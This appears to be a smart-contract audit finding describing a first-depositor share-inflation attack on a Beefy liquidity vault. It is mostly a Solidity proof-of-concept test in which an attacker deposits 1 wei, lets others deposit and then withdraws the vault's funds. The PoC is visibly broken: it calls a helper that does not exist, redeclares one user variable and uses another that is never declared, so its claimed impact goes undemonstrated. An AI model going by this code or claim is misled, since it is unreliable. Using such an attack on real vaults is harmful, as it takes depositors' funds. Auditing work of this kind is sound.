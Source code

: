 Jumpy White Canary

high

# The share allocation mechanism is vulnerable to front-running leading to an excessive share issuance for minimal initial contribution of 1wei

## Summary
The share allocation mechanism  is vulnerable to front-running.   An attacker(Alice)  can exploit this by providing minimal liquidity  `1 wei`  before other users deposit significant amounts. This initial minimal deposit leads to the attacker receiving an excessively large number of shares.


## Vulnerability Detail
The vulnerability lies in the initial liquidity provision and share calculation. The share allocation does not account for very small deposits, leading to an excessive share issuance for minimal initial contributions.



The steps are as follows:

1. An attacker(Alice) makes an initial deposit of `1 wei` of `token0` and `token1` to the vault.

2. Due to the way shares are calculated, the attacker(Alice)  receives a disproportionately large number of shares for this minimal deposit,

3. A legitimate user subsequently deposits a significant amount (e.g., 100 units of token0 and token1.

4. The attacker, holding a disproportionately large number of shares, withdraws from the vault.

5. The attacker receives a substantial portion of the vault's funds, far exceeding their initial minimal deposit.



In the test suite , add the following helper deposit function :
```solidity
   function _deposit_helper(address user1, string memory userName, uint amount) public {
   
    

    // Approve tokens
    IERC20(token0).approve(address(vault), amount);
    IERC20(token1).approve(address(vault), amount);

      
        // Preview deposit
        (uint _shares, uint256 _amount0, uint256 _amount1) = vault.previewDeposit(amount, amount);

    // Perform deposit
    try vault.deposit(_amount0, _amount1, _shares) {
        uint256 shares = vault.balanceOf(user1);
        console.log(string(abi.encodePacked("Shares for ", userName, ":")), shares);
    } catch (bytes memory reason) {
        console.log(string(abi.encodePacked("Deposit failed for ", userName, ":")), string(reason));
    }

   }




```

Now the poc 
```solidity
function test_poc() public {
  address Alice = vm.addr(0x123);
     deal(address(token0), Alice, 100);
     deal(address(token1), Alice, 100);
 
    vm.startPrank(Alice);
   uint x = 1;
    _deposit1(Alice, "Alice ", x);
      vm.stopPrank();
  
   skip(1 hours);



 address legit_user1= vm.addr(0x124);
          vm.startPrank( legit_user1);
    deal(address(token0), user, token0Size);
     deal(address(token1), user, token1Size);
   uint y = 100;
     _deposit1(user, "legit User1 ", y);
      vm.stopPrank();

skip(1 hours);
 address legit_user1= vm.addr(0x125);
    vm.startPrank( legit_user2);
    deal(address(token0), keeper, token0Size);
     deal(address(token1), keeper, token1Size);

   uint x2 = 200;
    _deposit1(keeper, " legit_user2", x2);
      vm.stopPrank();
 

            vm.startPrank(Alice);
                strategy.harvest(Alice);
uint256 _sharesBal = IERC20(address(vault)).balanceOf(Alice); 
  (uint256 _slip0, uint256 _slip1) = vault.previewWithdraw(_sharesBal);
    vault.withdrawAll(_slip0, _slip1);
    uint256 newBalance1 = IERC20(token0).balanceOf(Alice);
       uint256 newBalance2 = IERC20(token1).balanceOf(Alice);
   console.log("Alice New Balance: ", newBalance1);
    console.log("Alice New Balance: ", newBalance2);
      vm.stopPrank();







}

```
## Impact
This will result in loss of legimate users funds . Legitimate users wont be able to withdraw their funds . 

## Code Snippet
https://github.com/sherlock-audit/2024-05-beefy-cowcentrated-liquidity-manager/blob/main/cowcentrated-contracts/contracts/strategies/velodrome/StrategyPassiveManagerVelodrome.sol#L28

https://github.com/sherlock-audit/2024-05-beefy-cowcentrated-liquidity-manager/blob/main/cowcentrated-contracts/contracts/vault/BeefyVaultConcLiq.sol#L16

## Tool used

Manual Review

## Recommendation
1. introduce a minimum deposit threshold
2. Ensure the share allocation is proportional to the amount deposited and prevent excessive share issuance for minimal deposits
